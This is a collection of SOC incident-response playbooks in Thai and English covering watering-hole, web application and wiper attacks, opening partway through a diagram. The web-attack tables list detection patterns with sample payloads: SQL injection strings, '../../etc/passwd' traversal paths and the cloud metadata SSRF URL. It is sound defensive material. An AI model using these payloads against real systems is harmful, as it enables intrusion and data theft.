    SOC->>EDR: ตรวจ endpoints สำหรับ exploitation
    EDR->>SOC: 3 endpoints มีกิจกรรม post-exploit
    SOC->>IR: Escalate — ยืนยัน watering hole
    IR->>EDR: แยก endpoints ที่ได้รับผลกระทบ
    IR->>SOC: Sweep ทุก endpoints หา IOCs
```

### อุตสาหกรรมเป้าหมาย

```mermaid
graph TD
    subgraph "เป้าหมายหลักของ Watering Hole"
        F1["การเงิน\nเว็บธนาคาร/การซื้อขาย"]
        F2["รัฐบาล\nเว็บนโยบาย/จัดซื้อ"]
        F3["กลาโหม\nPortals ผู้รับเหมา"]
        F4["พลังงาน\nForum อุตสาหกรรม"]
        F5["สาธารณสุข\nPortals การแพทย์"]
        F6["เทคโนโลยี\nทรัพยากรนักพัฒนา"]
    end
    style F1 fill:#cc0000,color:#fff
    style F2 fill:#cc0000,color:#fff
    style F3 fill:#cc0000,color:#fff
```

### Exploit Kit Detection Flow

```mermaid
graph TD
    Visit["User เข้าเว็บที่เชื่อถือ"] --> Redirect{"มี redirect ซ่อน?"}
    Redirect -->|ไม่| Safe["ท่องเว็บปกติ"]
    Redirect -->|"ใช่ — iframe/JS"| EK["Exploit Kit landing"]
    EK --> Profile["สำรวจ Browser/OS"]
    Profile --> Vuln{"มีช่องโหว่?"}
    Vuln -->|ไม่| Benign["ไม่ส่ง exploit"]
    Vuln -->|ใช่| Exploit["ส่ง exploit"]
    Exploit --> Payload["Download payload"]
    Payload --> C2["C2 beacon"]
    style EK fill:#ff6600,color:#fff
    style Exploit fill:#cc0000,color:#fff
    style C2 fill:#660000,color:#fff
```

### Timeline การตอบสนอง

```mermaid
gantt
    title Watering Hole Response Timeline
    dateFormat HH:mm
    axisFormat %H:%M
    section Detection
        ได้รับ threat intel     :a1, 00:00, 5min
        Block เว็บที่ proxy     :a2, after a1, 10min
    section Scoping
        ดึง proxy access logs  :a3, after a2, 15min
        ระบุผู้เยี่ยมชม        :a4, after a3, 30min
    section Investigation
        ตรวจ EDR for exploits  :a5, after a4, 60min
        IOC sweep ทุก endpoints:a6, after a5, 120min
    section Recovery
        แก้ไขเครื่องที่ compromise :a7, after a6, 120min
```

---

## 1. การดำเนินการทันที (15 นาทีแรก)

| # | การดำเนินการ | ผู้รับผิดชอบ |
|:---|:---|:---|
| 1 | Block เว็บที่ถูก compromise ที่ proxy/DNS | SOC T1 |
| 2 | ดึง proxy logs: รายชื่อ users ทั้งหมดที่เข้าเว็บ | SOC T1 |
| 3 | ตรวจ EDR สำหรับ exploitation indicators บน visitors | SOC T2 |
| 4 | แจ้ง IT ส่ง IOCs ไปยัง security tools ทั้งหมด | SOC T2 |
| 5 | ติดต่อแหล่ง threat intel สำหรับ IOCs เพิ่มเติม | TI Team |
| 6 | แจ้งเจ้าของเว็บไซต์ (ถ้าเป็นไปได้) | SOC Manager |

## 2. รายการตรวจสอบ

### วิเคราะห์ Web Traffic
- [ ] Proxy logs: ทุกการเข้าเว็บที่ compromise (30+ วัน)
- [ ] ตรวจ redirects ไปยัง exploit kit domains
- [ ] ตรวจ JavaScript หรือ iframe ที่ฝังในเว็บ
- [ ] วิเคราะห์ไฟล์ที่ download ระหว่างเข้าเว็บ
- [ ] ตรวจ POST requests ผิดปกติ (data exfiltration)

### วิเคราะห์ Endpoint (สำหรับ visitors)
- [ ] EDR: process creation หลัง browser exploitation
- [ ] ตรวจ services, scheduled tasks, หรือ registry ใหม่
- [ ] ตรวจ child processes ผิดปกติของ browser
- [ ] Memory analysis สำหรับ exploit shellcode
- [ ] Network connections ไปยัง C2

## 3. การควบคุม (Containment)

| ขอบเขต | การดำเนินการ |
|:---|:---|
| **เว็บไซต์** | Block ที่ proxy, DNS sinkhole, firewall |
| **Endpoints** | แยกเครื่องที่ยืนยัน compromise |
| **เครือข่าย** | Block C2 domains/IPs |
| **Browser** | บังคับอัปเดต browsers + ปิด plugins ที่มีช่องโหว่ |

### มาตรการป้องกัน
- [ ] เปิด browser isolation สำหรับเว็บไซต์ที่เสี่ยง
- [ ] Deploy DNS filtering ในระดับองค์กร
- [ ] ใช้ virtual browser สำหรับเว็บไซต์ที่ไม่ไว้วางใจ
- [ ] ตรวจ browser extensions ที่ได้รับอนุญาต
- [ ] อัปเดต browser และ plugins ทุก endpoints ทันที
- [ ] เปิด Enhanced Safe Browsing (Chrome/Edge)

## 4. หลังเหตุการณ์ (Post-Incident)

| คำถาม | คำตอบ |
|:---|:---|
| เว็บไหนถูก compromise และอย่างไร? | [เว็บ + วิธี] |
| พนักงานกี่คนเข้าเว็บระหว่างช่วง compromise? | [จำนวน] |
| มี endpoints ถูก compromise จริงหรือไม่? | [จำนวน + รายละเอียด] |
| Browser และ plugins อัปเดตหรือไม่? | [สถานะ] |

## 6. Detection Rules (Sigma)

```yaml
title: Browser Child Process Spawning Suspicious Executable
logsource:
    product: windows
    category: process_creation
detection:
    selection:
        ParentImage|endswith:
            - '\chrome.exe'
            - '\msedge.exe'
            - '\firefox.exe'
        Image|endswith:
            - '\cmd.exe'
            - '\powershell.exe'
            - '\rundll32.exe'
    condition: selection
    level: high
```

## เอกสารที่เกี่ยวข้อง
- [Drive-By Download Playbook](Drive_By_Download.th.md)
- [Exploit Playbook](Exploit.th.md)
- [Malware Infection Playbook](Malware_Infection.th.md)

## References
- [MITRE T1189 — Drive-by Compromise](https://attack.mitre.org/techniques/T1189/)
- [CISA — Watering Hole Advisories](https://www.cisa.gov/news-events/cybersecurity-advisories)


---

## File: 05_Incident_Response/Playbooks/Web_Attack.en.md

# Playbook: Web Application Attack

**ID**: PB-10
**Severity**: High/Critical | **Category**: Application Security
**MITRE ATT&CK**: [T1190](https://attack.mitre.org/techniques/T1190/) (Exploit Public-Facing Application), [T1059.007](https://attack.mitre.org/techniques/T1059/007/) (JavaScript)
**Trigger**: WAF alert, IDS/IPS, SIEM correlation, Bug bounty report

### Web Attack Chain

```mermaid
graph LR
    Recon["🔍 Recon"] --> Scan["📡 Vuln Scan"]
    Scan --> Exploit["💥 Exploit"]
    Exploit --> Shell["🐚 Web Shell"]
    Shell --> Pivot["🔀 Pivot"]
    Pivot --> Exfil["📤 Exfiltrate"]
    style Recon fill:#3498db,color:#fff
    style Exploit fill:#e74c3c,color:#fff
    style Shell fill:#c0392b,color:#fff
    style Exfil fill:#8e44ad,color:#fff
```

### Defense in Depth

```mermaid
graph TD
    Traffic["🌐 Web Traffic"] --> WAF["🛡️ WAF"]
    WAF -->|Block| Blocked["❌ Blocked"]
    WAF -->|Pass| App["📱 Application"]
    App --> RASP["🔍 RASP"]
    RASP -->|Alert| SOC["🚨 SOC"]
    RASP -->|Clean| DB["🗄️ Database"]
    style WAF fill:#27ae60,color:#fff
    style RASP fill:#f39c12,color:#fff
    style SOC fill:#e74c3c,color:#fff
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 WAF / IDS Alert"] --> Decode["🔍 Decode Payload"]
    Decode --> Malicious{"Malicious Syntax?"}
    Malicious -->|No| FP["✅ False Positive"]
    Malicious -->|Yes| Response{"📊 Server Response?"}
    Response -->|200 OK + Data| Breach["🔴 Successful Exploitation"]
    Response -->|403 Blocked| Blocked["🟡 Attempt Blocked"]
    Response -->|500 Error| Partial["🟠 Possible Partial Success"]
    Breach --> RCE{"RCE / Shell?"}
    RCE -->|Yes| Offline["🚨 Take App OFFLINE"]
    RCE -->|No, Data Leak| Contain["🛡️ Block + Investigate"]
    Blocked --> Ban["🚫 Ban IP + Monitor"]
    Partial --> Investigate["🔍 Investigate Impact"]
    Offline --> FullIR["Full Incident Response"]
```

---

## 1. Analysis

### 1.1 Attack Classification

| Attack Type | Detection Pattern | OWASP | Severity |
|:---|:---|:---|:---|
| **SQL Injection** | `UNION SELECT`, `' OR 1=1`, `--` | A03:2021 | Critical |
| **XSS (Cross-Site Scripting)** | `<script>`, `onerror=`, `javascript:` | A03:2021 | High |
| **Remote Code Execution** | System commands, reverse shell syntax | A03:2021 | Critical |
| **Local File Inclusion (LFI)** | `../../../etc/passwd`, `php://filter` | A01:2021 | High |
| **Server-Side Request Forgery** | Internal IP requests, metadata URLs | A10:2021 | High |
| **Command Injection** | `; ls`, `| cat`, backtick execution | A03:2021 | Critical |
| **Path Traversal** | `..%2F`, `..%5C` | A01:2021 | High |
| **Authentication Bypass** | Token manipulation, JWT tampering | A07:2021 | Critical |
| **XML External Entity (XXE)** | `<!DOCTYPE`, `ENTITY`, `SYSTEM` | A05:2021 | High |

### 1.2 Assessment Checklist

| Check | How | Done |
|:---|:---|:---:|
| Decode the payload (Base64/URL encoding) | WAF logs, CyberChef | ☐ |
| What was the HTTP response code? | Access logs, WAF | ☐ |
| Was sensitive data returned to the attacker? | Response body analysis | ☐ |
| Automated scanner or manual attack? | Request frequency, User-Agent | ☐ |
| What is the target application and its criticality? | CMDB, business context | ☐ |
| Is the vulnerability known (CVE) or 0-day? | Vulnerability scanner, advisories | ☐ |
| Any evidence of web shell upload? | File system scan, new files | ☐ |

### 1.3 Scope Assessment

- [ ] Was the attack from a single IP or multiple (botnet)?
- [ ] Were multiple endpoints / APIs targeted?
- [ ] Any evidence of data exfiltration from the database?
- [ ] Was a web shell or backdoor uploaded?
- [ ] Were any credentials harvested?

---

## 2. Containment

### 2.1 Immediate Actions

| # | Action | Tool | Done |
|:---:|:---|:---|:---:|
| 1 | **Block attacker IP** at WAF and firewall | WAF, Firewall | ☐ |
| 2 | **Apply virtual patch** (WAF rule for specific exploit pattern) | WAF | ☐ |
| 3 | **If RCE confirmed**: Take application OFFLINE immediately | DevOps | ☐ |
| 4 | **Block User-Agent** if automated scanner | WAF | ☐ |
| 5 | **Enable enhanced WAF logging** (full request/response body) | WAF | ☐ |

### 2.2 If Exploitation Confirmed

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Scan web directories for uploaded web shells | ☐ |
| 2 | Check for new files: `*.php`, `*.jsp`, `*.aspx` in web root | ☐ |
| 3 | Check outbound connections from web server (reverse shell) | ☐ |
| 4 | Disable database access from web server (if SQLi confirmed) | ☐ |
| 5 | Capture memory dump and disk image of web server | ☐ |

---

## 3. Eradication

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Remove web shell or backdoor files | ☐ |
| 2 | **Patch the vulnerability** in source code | ☐ |
| 3 | Apply vendor security patches / updates | ☐ |
| 4 | Reset database credentials (if SQLi) | ☐ |
| 5 | Rotate API keys and session secrets | ☐ |
| 6 | Clear any crontab/scheduled task persistence by attacker | ☐ |

---

## 4. Recovery

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Deploy patched code to production | ☐ |
| 2 | Run vulnerability scan to verify fix | ☐ |
| 3 | Perform penetration test on the fixed endpoint | ☐ |
| 4 | Restore database from backup if data was modified | ☐ |
| 5 | Bring application back online | ☐ |
| 6 | Monitor for attack resumption for 72 hours | ☐ |

---

## 5. IoC Collection

| Type | Value | Source |
|:---|:---|:---|
| Attacker IP(s) | | WAF / Access logs |
| Attack payload | | WAF (decoded) |
| Target URL / Endpoint | | Access logs |
| User-Agent string | | Access logs |
| Web shell path | | File system scan |
| Web shell hash | | Forensics |
| Exfiltrated data type | | DB audit |

---

## 6. Escalation Criteria

| Condition | Escalate To |
|:---|:---|
| RCE confirmed (web shell, reverse shell) | SOC Lead + DevOps + CISO |
| Database breach (SQLi with data extraction) | CISO + Legal + DPO |
| Customer PII exposed | Legal + PDPA notification |
| Zero-day vulnerability | CISO + Vendor + CERT |
| Revenue-generating app taken offline | Business unit + Executive |
| Attacker targeting multiple applications | Major Incident |

---

## 7. Post-Incident

- [ ] Patch the exploited vulnerability and deploy to production
- [ ] Conduct code review for similar vulnerability patterns
- [ ] Update WAF rules with observed attack signatures
- [ ] Run DAST/SAST scans on the affected application
- [ ] Review and tighten input validation and output encoding
- [ ] Implement Content Security Policy (CSP) headers
- [ ] Schedule penetration test for affected application
- [ ] Document findings in [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

---

### Web Security Architecture

```mermaid
graph LR
    User["👤 User"] --> CDN["☁️ CDN"]
    CDN --> WAF["🛡️ WAF"]
    WAF --> LB["⚖️ Load Balancer"]
    LB --> App["📱 App Server"]
    App --> DB["🗄️ DB (parameterized)"]
    style WAF fill:#27ae60,color:#fff
    style DB fill:#3498db,color:#fff
```

### Secure SDLC

```mermaid
graph TD
    Dev["💻 Develop"] --> SAST["🔍 SAST scan"]
    SAST --> PR["📋 Code review"]
    PR --> DAST["🌐 DAST scan"]
    DAST --> Deploy{"✅ Pass?"}
    Deploy -->|Yes| Prod["🚀 Production"]
    Deploy -->|No| Fix["🔧 Fix + rescan"]
    Fix --> SAST
    style SAST fill:#f39c12,color:#fff
    style DAST fill:#3498db,color:#fff
    style Prod fill:#27ae60,color:#fff
```

## Detection Rules (Sigma)

| Rule | File |
|:---|:---|
| SQL Injection Pattern | [web_sqli_pattern.yml](../../08_Detection_Engineering/sigma_rules/web_sqli_pattern.yml) |
| WAF Detected Exploit Attempt | [web_waf_exploit.yml](../../08_Detection_Engineering/sigma_rules/web_waf_exploit.yml) |
| High Web Request Rate | [web_high_rate_limit.yml](../../08_Detection_Engineering/sigma_rules/web_high_rate_limit.yml) |

## Related Documents

- [IR Framework](../Framework.en.md)
- [Incident Report](../../11_Reporting_Templates/incident_report.en.md)
- [PB-18 Vulnerability Exploitation](Exploit.en.md)
- [PB-08 Data Exfiltration](Data_Exfiltration.en.md)

## References

- [OWASP Top 10 — 2021](https://owasp.org/www-project-top-ten/)
- [MITRE ATT&CK T1190 — Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/)
- [OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)


---

## File: 05_Incident_Response/Playbooks/Web_Attack.th.md

# Playbook: Web Attack / การโจมตีเว็บแอปพลิเคชัน

**ID**: PB-10
**ระดับความรุนแรง**: สูง/วิกฤต | **หมวดหมู่**: ความปลอดภัยแอปพลิเคชัน
**MITRE ATT&CK**: [T1190](https://attack.mitre.org/techniques/T1190/) (Exploit Public-Facing Application)
**ทริกเกอร์**: WAF alert, IDS/IPS, SIEM correlation, Bug bounty report


## หลังเหตุการณ์ (Post-Incident)

- [ ] Patch vulnerability ที่ถูก exploit
- [ ] ทำ code review สำหรับ vulnerability patterns ที่คล้ายกัน
- [ ] อัพเดท WAF rules ด้วย attack signatures ที่พบ
- [ ] รัน DAST/SAST scans
- [ ] ใช้ Content Security Policy (CSP) headers
- [ ] จัดทำ [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

### ผังเส้นทางการโจมตีเว็บ

```mermaid
graph LR
    Recon["🔍 Recon"] --> Scan["📡 Vuln Scan"]
    Scan --> Exploit["💥 Exploit"]
    Exploit --> Shell["🐚 Web Shell"]
    Shell --> Pivot["🔀 Pivot"]
    Pivot --> Exfil["📤 Exfiltrate"]
    style Recon fill:#3498db,color:#fff
    style Exploit fill:#e74c3c,color:#fff
    style Shell fill:#c0392b,color:#fff
    style Exfil fill:#8e44ad,color:#fff
```

### ผังการป้องกันหลายชั้น

```mermaid
graph TD
    Traffic["🌐 Web Traffic"] --> WAF["🛡️ WAF"]
    WAF -->|Block| Blocked["❌ Blocked"]
    WAF -->|Pass| App["📱 Application"]
    App --> RASP["🔍 RASP"]
    RASP -->|Alert| SOC["🚨 SOC"]
    RASP -->|Clean| DB["🗄️ Database"]
    style WAF fill:#27ae60,color:#fff
    style RASP fill:#f39c12,color:#fff
    style SOC fill:#e74c3c,color:#fff
```

---

## ผังการตัดสินใจ

```mermaid
graph TD
    Alert["🚨 Web Attack Alert"] --> Type{"⚙️ ประเภท OWASP?"}
    Type -->|SQLi| SQL["💉 SQL Injection"]
    Type -->|XSS| XSS["📜 Cross-Site Scripting"]
    Type -->|RCE/RFI| RCE["💥 Remote Code Execution"]
    Type -->|Path Traversal| Path["📂 File Access"]
    Type -->|Auth Bypass| Auth["🔓 Authentication Bypass"]
    SQL --> Data{"📊 ข้อมูลรั่วไหล?"}
    XSS --> Session{"🍪 Session Hijack?"}
    RCE --> Shell{"🐚 Web Shell?"}
    Path --> Sensitive{"📁 ไฟล์สำคัญ?"}
    Auth --> Access{"👤 เข้าถึง Admin?"}
    Shell -->|ใช่| Critical["🔴 Isolate ทันที"]
```

---

## 1. การวิเคราะห์

### 1.1 ประเภท Web Attack (OWASP Top 10 Mapping)

| ประเภท | OWASP | ลักษณะ | ความรุนแรง |
|:---|:---|:---|:---|
| **SQL Injection** | A03 | `' OR 1=1--`, UNION SELECT | 🔴 วิกฤต |
| **Cross-Site Scripting (XSS)** | A03 | `<script>`, stored/reflected | 🟠 สูง |
| **Remote Code Execution (RCE)** | A03 | Command injection, file upload | 🔴 วิกฤต |
| **LFI/RFI** | A01 | `../../etc/passwd`, remote include | 🔴 สูง |
| **SSRF** | A10 | `http://169.254.169.254/` | 🔴 สูง |
| **Authentication Bypass** | A07 | Broken auth, JWT manipulation | 🔴 วิกฤต |
| **Broken Access Control** | A01 | IDOR, privilege escalation | 🔴 สูง |
| **Deserialization** | A08 | Object injection → RCE | 🔴 วิกฤต |

### 1.2 รายการตรวจสอบ

| รายการ | วิธีตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| URL / endpoint ที่ถูกโจมตี | WAF / access logs | ☐ |
| ประเภทการโจมตี (ดูตาราง 1.1) | WAF rule / payload analysis | ☐ |
| โจมตีสำเร็จ หรือถูก WAF block? | WAF logs (block vs detect) | ☐ |
| Source IP | WAF / access logs | ☐ |
| มี web shell ถูกวาง? | File integrity / EDR | ☐ |
| มีข้อมูลรั่วไหล? (SQLi → DB dump) | DB query logs | ☐ |
| มีหลาย endpoint ถูกโจมตี? (automated scan) | WAF | ☐ |
| มี lateral movement ตามมา? | SIEM | ☐ |

### 1.3 Web Shell Indicators

| ตัวบ่งชี้ | เครื่องมือ |
|:---|:---|
| ไฟล์ใหม่ใน web root (*.php, *.aspx, *.jsp) | File integrity monitoring |
| POST requests ไปยังไฟล์ที่ไม่รู้จัก | Access logs |
| Outbound connections จาก web server | Netflow / EDR |
| Process spawn จาก web server (cmd, bash) | EDR / Sysmon |

---

## 2. การควบคุม

### 2.1 Attack Blocked (WAF caught)

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | **Block** source IP ที่ WAF/firewall | ☐ |
| 2 | **ตรวจ** ว่ามี bypass attempts อื่น | ☐ |
| 3 | **เพิ่ม** WAF virtual patch สำหรับ vulnerability | ☐ |

### 2.2 Attack Succeeded

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | **ย้าย** web application ไปหลัง WAF (ถ้ายังไม่มี) | ☐ |
| 2 | **Virtual patch** ที่ WAF สำหรับ attack pattern | ☐ |
| 3 | **ค้นหาและลบ web shell** | ☐ |
| 4 | **Block** source IP + C2 IPs | ☐ |
| 5 | **Isolate** web server (ถ้า RCE confirmed) | ☐ |
| 6 | **หมุนเวียน** DB credentials (SQLi) / API keys | ☐ |

---

## 3. การกำจัด

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | **แก้ไข source code** — fix vulnerability | ☐ |
| 2 | ลบ web shell + backdoor | ☐ |
| 3 | ลบ persistence (cron, scheduled tasks) | ☐ |
| 4 | หมุนเวียน credentials ทั้งหมด (DB, API, session secrets) | ☐ |
| 5 | Rebuild web server จาก clean image (ถ้า RCE) | ☐ |

---

## 4. การฟื้นฟู

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | Deploy **WAF** พร้อม OWASP Core Rule Set | ☐ |
| 2 | สั่ง **SAST/DAST** security scan | ☐ |
| 3 | เปิด **parameterized queries** (prevent SQLi) | ☐ |
| 4 | เปิด **Content-Security-Policy** headers (prevent XSS) | ☐ |
| 5 | เปิด **file integrity monitoring** บน web root | ☐ |
| 6 | ตั้ง **web application pen test** ทุก 6 เดือน | ☐ |

---

## 5. เกณฑ์การยกระดับ

| เงื่อนไข | ยกระดับไปยัง |
|:---|:---|
| Web shell confirmed (RCE) | SOC Lead + CISO |
| SQLi + data exfiltrated | Legal + DPO (PDPA 72 ชม.) |
| หลาย applications ถูกโจมตี | Major Incident |
| Zero-day ใน web framework | [PB-24 Zero-Day](Zero_Day_Exploit.th.md) |
| SSRF → cloud metadata access | [PB-16 Cloud IAM](Cloud_IAM.th.md) |

---

### ผัง Web Security Architecture

```mermaid
graph LR
    User["👤 User"] --> CDN["☁️ CDN"]
    CDN --> WAF["🛡️ WAF"]
    WAF --> LB["⚖️ Load Balancer"]
    LB --> App["📱 App Server"]
    App --> DB["🗄️ DB (parameterized)"]
    style WAF fill:#27ae60,color:#fff
    style DB fill:#3498db,color:#fff
```

### ผัง Secure SDLC

```mermaid
graph TD
    Dev["💻 Develop"] --> SAST["🔍 SAST scan"]
    SAST --> PR["📋 Code review"]
    PR --> DAST["🌐 DAST scan"]
    DAST --> Deploy{"✅ Pass?"}
    Deploy -->|Yes| Prod["🚀 Production"]
    Deploy -->|No| Fix["🔧 Fix + rescan"]
    Fix --> SAST
    style SAST fill:#f39c12,color:#fff
    style DAST fill:#3498db,color:#fff
    style Prod fill:#27ae60,color:#fff
```

## กฎตรวจจับ (Sigma)

| กฎ | ไฟล์ |
|:---|:---|
| SQL Injection Pattern | [web_sqli_pattern.yml](../../08_Detection_Engineering/sigma_rules/web_sqli_pattern.yml) |
| WAF Detected Exploit Attempt | [web_waf_exploit.yml](../../08_Detection_Engineering/sigma_rules/web_waf_exploit.yml) |
| High Web Request Rate | [web_high_rate_limit.yml](../../08_Detection_Engineering/sigma_rules/web_high_rate_limit.yml) |

## เอกสารที่เกี่ยวข้อง

- [กรอบการตอบสนองต่อเหตุการณ์](../Framework.th.md)
- [PB-30 API Abuse](API_Abuse.th.md)
- [PB-18 Exploit](Exploit.th.md)

## OWASP Top 10 Detection Rules

| Attack | WAF Rule | SIEM Correlation |
|:---|:---|:---|
| SQL Injection | Pattern match | DB error spike |
| XSS | Script tag filter | Reflected content |
| SSRF | Internal IP block | Unusual outbound |
| Path Traversal | ../ pattern | File access logs |
| Broken Auth | Rate limiting | Failed login pattern |

### Web Attack Forensics

| Evidence | Location | Collection |
|:---|:---|:---|
| Access logs | Web server | Export + preserve |
| WAF logs | WAF console | API export |
| Application logs | App server | Centralized logging |
| Client-side | Browser console | Screenshot/HAR |

## อ้างอิง

- [OWASP Top 10](https://owasp.org/Top10/)
- [MITRE ATT&CK T1190](https://attack.mitre.org/techniques/T1190/)


---

## File: 05_Incident_Response/Playbooks/Wiper_Attack.en.md

# Playbook: Wiper / Destructive Attack Response

**ID**: PB-38
**Severity**: Critical | **Category**: Impact
**MITRE ATT&CK**: [T1485](https://attack.mitre.org/techniques/T1485/) (Data Destruction), [T1561](https://attack.mitre.org/techniques/T1561/) (Disk Wipe), [T1490](https://attack.mitre.org/techniques/T1490/) (Inhibit System Recovery)
**Trigger**: EDR alert (mass file deletion), SIEM (MBR overwrite pattern), multiple systems offline simultaneously

> ⚠️ **CRITICAL**: Wiper attacks are IRREVERSIBLE. Speed is everything — isolate before the wiper propagates. Do NOT attempt to remediate on infected systems.

### Known Wiper Malware Families

```mermaid
graph TD
    Wiper["💀 Wiper Malware"] --> NotPetya["NotPetya (2017)\nSMB + EternalBlue"]
    Wiper --> Shamoon["Shamoon (2012)\nMBR overwrite"]
    Wiper --> WhisperGate["WhisperGate (2022)\nUkraine targeted"]
    Wiper --> HermeticWiper["HermeticWiper (2022)\nPartition corruption"]
    Wiper --> CaddyWiper["CaddyWiper (2022)\nFile + partition wipe"]
    Wiper --> Industroyer2["Industroyer2 (2022)\nOT/ICS targeted"]
    Wiper --> AcidRain["AcidRain (2022)\nModem/router wipe"]
    style Wiper fill:#660000,color:#fff
    style NotPetya fill:#cc0000,color:#fff
    style HermeticWiper fill:#cc0000,color:#fff
```

### Wiper Kill Chain

```mermaid
graph LR
    A["1️⃣ Access\nPhishing/Exploit"] --> B["2️⃣ Staging\nDrop wiper"]
    B --> C["3️⃣ Disable Recovery\nDelete VSS/backups"]
    C --> D["4️⃣ Propagation\nSMB/PsExec/GPO"]
    D --> E["5️⃣ Execution\nOverwrite MBR/files"]
    E --> F["6️⃣ Systems Offline\n💀"]
    style A fill:#ff9900,color:#fff
    style C fill:#ff4444,color:#fff
    style E fill:#cc0000,color:#fff
    style F fill:#660000,color:#fff
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 Destructive Activity Detected"] --> Type{"Type of destruction?"}
    Type -->|"MBR overwrite"| MBR["Systems unbootable\n💀 CRITICAL"]
    Type -->|"Mass file deletion"| Files["Mass delete/encrypt\nCheck if ransomware"]
    Type -->|"Volume shadow delete"| VSS["Recovery disabled\nPrecursor to wiper"]
    MBR --> Isolate["🔴 ISOLATE ALL AFFECTED SEGMENTS"]
    Files --> Ransom{"Ransom note present?"}
    Ransom -->|Yes| RansomPB["→ Ransomware Playbook PB-02"]
    Ransom -->|"No — Pure destruction"| Isolate
    VSS --> Monitor["Monitor for follow-up wiper"]
    Isolate --> Scope{"Spreading?"}
    Scope -->|Yes| Emergency["🚨 EMERGENCY\nSegment entire network"]
    Scope -->|"Contained to single host"| Investigate["Investigate wiper binary"]
    Emergency --> BCP["Activate BCP/DR"]
    style Alert fill:#ff4444,color:#fff
    style MBR fill:#660000,color:#fff
    style Emergency fill:#660000,color:#fff
```

### Incident Communication

```mermaid
sequenceDiagram
    participant SOC as SOC Analyst
    participant Manager as SOC Manager
    participant CISO
    participant CEO
    participant Legal
    participant BCP as BCP Team

    SOC->>Manager: 🚨 Wiper detected — multiple systems down
    Manager->>CISO: CRITICAL — destructive attack in progress
    CISO->>CEO: BCP activation required
    CISO->>Legal: Assess regulatory notification
    CISO->>BCP: Activate disaster recovery
    BCP->>BCP: Begin rebuild from clean backups
    SOC->>Manager: Status update every 30 minutes
    Manager->>CISO: Scope assessment: X systems affected
```

### Wiper Propagation Methods

```mermaid
graph TD
    Prop["Propagation Methods"] --> SMB["SMB/EternalBlue\nNetwork shares"]
    Prop --> PsExec["PsExec/WMI\nAdmin credentials"]
    Prop --> GPO["Group Policy\nDomain-wide deployment"]
    Prop --> Supply["Supply Chain\nSoftware update mechanism"]
    Prop --> USB["USB/Removable\nAir-gapped networks"]
    SMB --> Wide["🔴 Network-wide impact"]
    PsExec --> Wide
    GPO --> Wide
    style Prop fill:#333,color:#fff
    style Wide fill:#660000,color:#fff
```

### Response Timeline

```mermaid
gantt
    title Wiper Attack Response Timeline
    dateFormat HH:mm
    axisFormat %H:%M
    section Detection
        Alert triggered        :a1, 00:00, 5min
        Confirm destructive    :a2, after a1, 10min
    section Containment
        Network segmentation   :a3, after a2, 15min
        Isolate all affected   :a4, after a3, 30min
    section Recovery
        Assess backup status   :a5, after a4, 60min
        Begin rebuild          :a6, after a5, 180min
        System restoration     :a7, after a6, 480min
    section Hardening
        Root cause analysis    :a8, after a7, 120min
```

### Impact Severity Matrix

```mermaid
graph TD
    Impact["Impact Assessment"] --> Single{"Single host?"}
    Single -->|Yes| Low["🟡 Medium\nRebuild single system"]
    Single -->|Multiple| Domain{"Domain controller affected?"}
    Domain -->|No| Med["🟠 High\nMultiple system rebuild"]
    Domain -->|Yes| DC{"AD database intact?"}
    DC -->|Yes| High["🔴 Critical\nDC rebuild + credential reset"]
    DC -->|No| Cat["💀 Catastrophic\nFull AD rebuild from backup"]
    style Impact fill:#333,color:#fff
    style Cat fill:#660000,color:#fff
```

---

## 1. Immediate Actions (First 10 Minutes)

| # | Action | Owner |
|:---|:---|:---|
| 1 | **ISOLATE** affected network segments immediately | Network Team |
| 2 | Power OFF systems showing wiper activity (preserve evidence) | SOC T1 |
| 3 | Block lateral movement: disable SMB, PsExec, WMI | Network Team |
| 4 | Verify backup integrity BEFORE connecting backup systems | SOC T2 |
| 5 | Alert CISO — activate BCP/DR plan | SOC Manager |
| 6 | Preserve at least ONE infected system for forensics | IR Team |

## 2. Investigation Checklist

### Malware Analysis
- [ ] Capture wiper binary (if system still running)
- [ ] Identify wiper family (hash lookup in VT, MalwareBazaar)
- [ ] Determine propagation mechanism (SMB, PsExec, GPO, scheduled task)
- [ ] Check for self-propagation capabilities
- [ ] Identify kill switch or C2 communication

### Scope Assessment
- [ ] How many systems are affected?
- [ ] Is the wiper still spreading?
- [ ] Are domain controllers compromised?
- [ ] Are backups accessible and clean?
- [ ] Are OT/ICS systems at risk?

### Initial Access
- [ ] How did the wiper enter the network?
- [ ] Check email logs for initial phishing
- [ ] Check VPN/RDP logs for unauthorized access
- [ ] Review supply chain components

## 3. Containment

| Priority | Action | Details |
|:---|:---|:---|
| **P0** | Network segmentation | Block all SMB (445), RDP (3389) between VLANs |
| **P0** | Disable admin shares | `net share C$ /delete` across network |
| **P1** | Disconnect backups | Ensure backup networks are air-gapped |
| **P1** | Disable scheduled tasks | Remove GPO-deployed tasks |
| **P2** | Block C2 domains/IPs | Firewall + DNS sinkhole |

## 4. Eradication & Recovery

### Recovery Priority
1. **Domain Controllers** — Rebuild AD from clean backup
2. **DNS/DHCP** — Restore network services
3. **Backup infrastructure** — Verify and protect
4. **Critical business systems** — ERP, email, file servers
5. **Workstations** — Reimage from gold image

### Recovery Checklist
- [ ] Verify backup integrity before restoration
- [ ] Rebuild systems from clean images (not from infected backups)
- [ ] Reset ALL domain credentials (including KRBTGT twice)
- [ ] Re-deploy EDR agents on rebuilt systems
- [ ] Implement network segmentation before reconnecting

## 5. Post-Incident

### Lessons Learned
| Question | Answer |
|:---|:---|
| Was the wiper detected before execution? | [Timeline] |
| Were backups properly air-gapped? | [Yes/No] |
| How fast was network segmentation? | [Time] |
| Was BCP/DR plan effective? | [Assessment] |

### Recovery Metrics
| Metric | Target | Actual |
|:---|:---|:---|
| Time to detect | < 15 min | [Actual] |
| Time to contain | < 30 min | [Actual] |
